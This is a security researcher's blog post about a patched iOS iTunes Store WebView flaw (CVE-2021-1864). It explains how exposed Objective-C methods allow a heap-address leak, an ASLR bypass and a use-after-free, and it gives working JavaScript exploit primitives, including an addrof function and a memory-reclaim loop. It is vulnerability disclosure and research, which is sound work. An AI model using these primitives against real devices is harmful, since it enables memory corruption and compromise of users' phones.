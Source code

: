 ```yaml
---
layout:	post
title:  "Mistuned Part 2: Butterfly Effect"
image:  /img/2021-08-04-mistuned-part-i/mistune.png
desc:   A simple access control issue makes a huge difference, leading to infoleak and use after free.
---
```


In the last post, I used a client-side XSS to get JavaScript injected to a local pre-installed app. It has no process isolation while it still supports in-process just-in-time (JIT). Any working WebKit exploit works there too, with much more access than WebContent renderer. It doesn’t even need real code execution to launch Calculator app.

Trolling is not the goal. Let’s try harder.

As we’ve mentioned before, the WebView has some Objective-C methods exposed to JavaScript under the `iTunes` namespace. The corresponding interfaces are implemented by an `SUScriptInterface` instance.

This is powered by the obsolete [WebScripting](https://developer.apple.com/documentation/objectivec/nsobject/webscripting) API. It does automatically type convention between JavaScript (JSValue) and NSObject.

However, an insufficient access control leads to exploitable bugs. The bug introduced by iOS 6 only has two instructions altogether.

```
bool +[SUScriptObject isSelectorExcludedFromWebScript:](id, SEL, SEL)
  MOV             W0, #0
  RET
```

What could possibly go wrong?

I bet you remember the famous addJavaScriptInterface (CVE-2012-6636) bug on Android. The root cause is that before the patch, there was no sufficient access control on whether the method should be exported to JavaScript. By abusing Java Reflection, malicious scripts are able to execute arbitrary code remotely.

WebScripting is similar to `addJavaScriptInterface`. Both of them are for exporting extra native interfaces to JavaScript. Unlike JavaScriptInterface, WebScripting has access control from the beginning.

According to the [documentation](https://developer.apple.com/library/archive/documentation/AppleApplications/Conceptual/SafariJSProgTopics/ObjCFromJavaScript.html):

> For security reasons, no methods or KVC keys are exposed to the JavaScript environment by default. Instead a class must implement these methods:
>
>  * `+ (BOOL)isSelectorExcludedFromWebScript:(SEL)aSelector;`
>  * `+ (BOOL)isKeyExcludedFromWebScript:(const char *)name;`
>
> The default is to exclude all selectors and keys. Returning NO for some selectors and key names will expose those selectors or keys to JavaScript. This is described further in  [WebKit Plug-In Programming Topics](https://developer.apple.com/library/archive/documentation/InternetWeb/Conceptual/WebKit_PluginProgTopic/WebKitPluginTopics.html#//apple_ref/doc/uid/TP40001521) .

By returning `NO` for every selector, all of the methods are visible to JavaScript.

Having a Deja Vu? This is just like `addJavaScriptInterface` without the `@JavascriptInterface` annotation.

## Primitive `addrof`

Objective-C programming is about messaging. When an Objective-C instance receives an unknown selector, it throws an `NSException` like this: 

> unrecognized selector sent to instance `0x10b15a470`

The address is usually the heap pointer of the object.

Method `scriptWindowContext` and `setScriptWindowContext_` are the setter and getter for `iTunes.window` object respectively. They are not supposed to be used by JavaScript. With the access control policy, it’s possible to use the setter to assign any object to that property, causing a potential runtime type confusion.

In `-[SUScriptInterface window]` function, it performs the `tag` selector on that object. If the object doesn't recognize the selector, it throws an exception that is catchable by Javascript. We can read the hexlified heap address of the object out of `Error.message`.

```javascript
function addrof(obj) {
  const saved = iTunes.scriptWindowContext()
  iTunes.setScriptWindowContext_(obj)
  try {
    iTunes.window
  } catch(e) {
    console.debug(e)
    const match = /instance (0x[\da-f]+)$/i.exec(e)
    if (match) return match[1]
    throw new Error('Unable to leak heap addr')
  } finally {
    iTunes.setScriptWindowContext_(saved)
  }
}

// usage:
addrof(iTunes.makeWindow())
addrof('A'.repeat(1024 * 1024))
```

This primitive is never seen before and it only applies to this particular application.

## ASLR Bypass

Now we immediatly bypass ASLR with the same primitive. The Objective-C runtime uses various tricks to save memory, e.g., tagged pointer, class clusters, etc. Some of the magic values does not create new object instance at all. They use shared instances instead.

* `__kCFNumberNaN`: `NaN`
* `__kCFNumberPositiveInfinity`: `Infinity`
* `__kCFBooleanTrue`: `true`
* `__kCFBooleanFalse`: `false`

So `addrof(false)` leaks the address of `__kCFBooleanFalse`, which is in the CoreFoundation library. All of the system libraries are linked together in a huge dyld_shared_cache, so the they share the same slide.

## Use-After-Free

Lack of access control leads to unexpected behavior that some critical methods that control the object lifecycle are now accessible. For example, the equivalent of `free` in Objective-C is the `dealloc` method.

Just ask the interface to allocate an object and call its deallocation method, now we have a dangling reference to it:

```javascript
const w = iTunes.makeWindow();
w.dealloc();
w // dangling reference
```

This results in an access voilation within the runtime function `objc_opt_respondsToSelector` that the runtime tries to dereference an invalid id pointer.

![dangling pointer](/img/2021-08-05-mistuned-part-ii/uaf.svg)

This bug was introduced by iOS 6. It has been assigned to CVE-2021-1864.

## Reclaiming the Memory

Now it’s time for classic UAF exploitation. Refill the memory with another differently shaped object to make a type confusion.

All the subclasses of `SUScriptObject` have the `deallloc` method exported. There are plenty of `-[SUScriptInterface make*]` methods that allocate new instance for various of `SUScriptObject`, making them the ideal subjects to create dangling pointers. Here we chose `makeXMLHTTPStoreRequest` because the size of the object returned is big enough for not easily having collision with other common allocations.

The problem is that variant size objects in JavaScriptCore have their own heap, making it impossible to reclaim the freed memory with ArrayBuffer or JavaScript string.

Luckily I found this method `addMultiPartData:withName:type:` in `SUScriptFacebookRequest` class. The first argument is a string to lately create an `NSURL`. When the URL scheme is `data:`, it calls `SUGetDataForDataURL` to decode the payload to create an `NSData` with fully controlled length and content. This makes an incredibly perfect `malloc` primitive in the desired heap and it's even binary-safe. Every single byte, including the `isa` pointer is fully controllable.

```javascript
// alloc an SUScriptXMLHTTPStoreRequest
const w = iTunes.makeXMLHTTPStoreRequest();
const req = iTunes.createFacebookRequest('http://', 'GET');
// malloc_size(SUScriptXMLHTTPStoreRequest) == 192
const uri = str2DataUri(makeStr(192));
// avoid GC
window.w = w; window.req = req;
// get a dangling pointer
w.dealloc();
for (let i = 0; i < 32; i++)
  req.addMultiPartData(uri, 'A', 'B');
w // boom
```

![fakeobj](/img/2021-08-05-mistuned-part-ii/fakeobj.jpg)

Now the challenge is, how do we exploit this on PAC devices? Stay tuned for the next posts.

## Conclusion

This bug is so unique. It wouldn’t be possible to reached the code without the first XSS. It's considered unfuzzable. Although `dealloc` does make the app crash, the methods are not enumerable by JavaScript unless we know the exact names.

The funny thing is that there is a clear security warning in the documentation about how developers should deal with the method, but the code still went wrong. It makes me think that even given the machine enough intelligence and power to explore program states, some mistakes are still hard for them and even us human to understand. That's why we need code review for offensive research.

